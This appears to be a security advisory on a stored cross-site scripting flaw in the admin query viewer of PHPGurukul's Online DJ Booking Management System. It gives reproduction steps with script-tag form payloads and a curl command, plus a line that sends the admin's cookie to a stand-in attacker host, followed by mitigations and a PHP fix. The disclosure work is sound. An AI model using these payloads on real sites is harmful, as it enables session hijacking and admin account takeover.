










# Stored Cross-Site Scripting (XSS) Vulnerability Report

## Affected Product:

| **Attribute**           | **Details**                                                                 |
|-------------------------|-----------------------------------------------------------------------------|
| **Vendor**              | PHPGurukul                                                                  |
| **Application Name**    | Online DJ Booking Management System                                         |
| **Version(s) Affected** | V2.0                                                                        |
| **Vulnerability**       | Stored Cross-Site Scripting (XSS)                                           |
| **Affected Path**       | `/admin/view-user-queries.php`                                              |
| **Affected File(s)**    | `odms/admin/view-user-queries.php`                                          |

🔗 **Official Website:**  
[PHPGurukul - Online DJ Booking Management System - Project Source Code](https://phpgurukul.com/online-dj-booking-management-system-using-php-and-mysql/)

---

## ⚠️ Vulnerability Overview:

Stored Cross-Site Scripting (Stored XSS) is a security vulnerability where malicious scripts are permanently stored on the server (e.g., in a database). When another user—often an administrator—views the stored data, the script is executed in their browser.

In this case, **anyone can submit a contact us query form** through input fields. Since the inputs are **not sanitized or escaped**, an attacker can inject a malicious script into the request (e.g., `<script>alert('document.domain')</script>`). When an admin opens that query in the dashboard, the script executes in their browser, potentially leading to:

- Cookie theft  
- Session hijacking  
- Unwanted actions performed on behalf of the admin  

---

## Steps to Reproduce:

> ⚠️ **Note:** I downloaded the project source and hosted it on my Virtual Private Server (VPS) and located it on my domain name: `pentest1.blackm4c.xyz`.

1. **Open the Contact Us page and fill the form:**

    ```
    https://domain.com/contact.php
    ```

    

2. **Submit the form with XSS payloads using Burp Suite or browser developer tools.**  
   Payloads can be injected into:

    - Name  
    - Email  
    - Message  

    

    Example POST payload:
    ```
    name=<script>alert("from+name+field")</script>&email=<script>alert("from+email+field")</script>&mobnum=123456789&message=<script>alert("from+message+field")</script>&submit=Submit
    ```

    Example `curl` command:
    ```bash
    curl -k -X POST 'https://domain.com/contact.php' \
    -b 'PHPSESSID=e9tr282kpesjphiav73rn8osm3' \
    --data 'name=<script>alert("from name")</script>&email=<script>alert("from email")</script>&mobnum=123456789&message=<script>alert("from message")</script>&submit=Submit'
    ```

3. **Log in to the admin account and navigate to the new Unread Queries:**

    Sidebar → **DASHBOARD** → **Total Unread Queries**

    ```
    https://domain.com/admin/unread-queries.php
    ```

    

    After locating the infected query, click the **View** button:

      
      
      
    

    Demonstration of HTML injection:
    

4. **Viewed queries are moved to the 'Total Read Queries' section:**

    Sidebar → **DASHBOARD** → **Total Read Queries**

    

    Clicking again triggers the payload:

    

    The XSS payloads will execute via JavaScript `alert()` pop-ups for each infected field.

---

## Impact of Stored XSS

- An authenticated user can submit a query with malicious JavaScript in a form field.
- The input is **not sanitized or escaped**, and is stored in the backend (Database).
- When the **admin views the query**, the script executes in the admin's browser.
- This can lead to **admin account takeover** by stealing session cookies using payloads like:

    ```html
    <script>fetch('https://attacker.com?c=' + document.cookie)</script>
    ```

- The attacker can impersonate the admin and gain full system access.

---

## ✅ Recommended Mitigations

The developer implemented `htmlspecialchars()` in some parts of the system, but missed doing so in `view-user-queries.php`.

- **Input Sanitization:**  
  Strip or escape HTML/JavaScript tags from user inputs before storing.

- **Output Encoding:**  
  Encode output data before rendering (e.g., use `htmlspecialchars()`).

- **Use Templating Engines That Auto-Escape Output:**
  - **Twig:** `{{ name }}` auto-escapes
  - **Blade (Laravel):** `{{ $name }}` auto-escapes

- **Content Security Policy (CSP):**  
  Add a strict CSP header to limit script execution.

- **HTTPOnly Cookies:**  
  Mark session cookies with `HttpOnly` to prevent JavaScript access.

- **Input Validation:**  
  Validate data format, type, and length on all user inputs.

---

## Code Fix

Ensure all echoed data is escaped:

```php
<!-- Before (vulnerable) -->
<td><?php echo $row['name']; ?></td>

<!-- After (secure) -->
<td><?php echo htmlspecialchars($row['name'], ENT_QUOTES, 'UTF-8'); ?></td>
```
Apply this change to all user-generated data displayed in view-user-queries.php.

## 📚 References

- [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
- [CWE-614: Sensitive Cookie in HTTPS Session Without 'Secure' Attribute](https://cwe.mitre.org/data/definitions/614.html)
- [PortSwigger – Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)  
- [OWASP – Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)  
- [OWASP – XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)